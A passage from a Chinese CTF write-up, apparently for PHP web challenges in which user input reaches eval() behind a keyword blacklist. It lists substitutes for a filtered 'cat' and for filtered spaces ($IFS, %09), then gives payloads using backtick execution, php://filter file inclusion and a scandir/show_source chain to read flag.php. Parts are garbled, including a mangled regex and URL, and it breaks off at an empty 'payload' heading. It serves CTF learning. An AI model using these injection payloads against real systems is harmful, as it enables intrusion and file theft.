 }else{
    highlight_file(__FILE__);
} 
1. cat被过滤
more一页一页的显示档案内容
less与 more 类似
head查看头几行
tac从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail查看尾几行
nl：显示的时候，顺便输出行号
od以二进制的方式读取档案内容
vi一种编辑器，这个也可以查看
vim一种编辑器，这个也可以查看
sort可以查看
uniq可以查看
file -f报错出具体内容
grep  在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test file
paste  指令会把每个文件以列对列的方式，一列列地加以合并。
2. 空格被过滤·
{$IFS}   $IFS$9
   重定向符
%09(需要php环境)
{cat,flag.php} 用逗号实现了空格功能
%20  
httpsblog.csdn.netwhusleiarticledetails7187639  
payload

c=echo(`tac%09f`);
解法二：

c=include($_GET[url]);&url=phpfilterread=convert.base64-encoderesource=flag.php
官方

show_source(next(array_reverse(scandir(pos(localeconv())))));
web32~文件包含绕过
php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match(flagsystemphpcatsortshell. '`echo;(i, $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
又增加过滤了 反引号、括号，echo。

文件包含绕过
include
require
include_once
require_once
payload
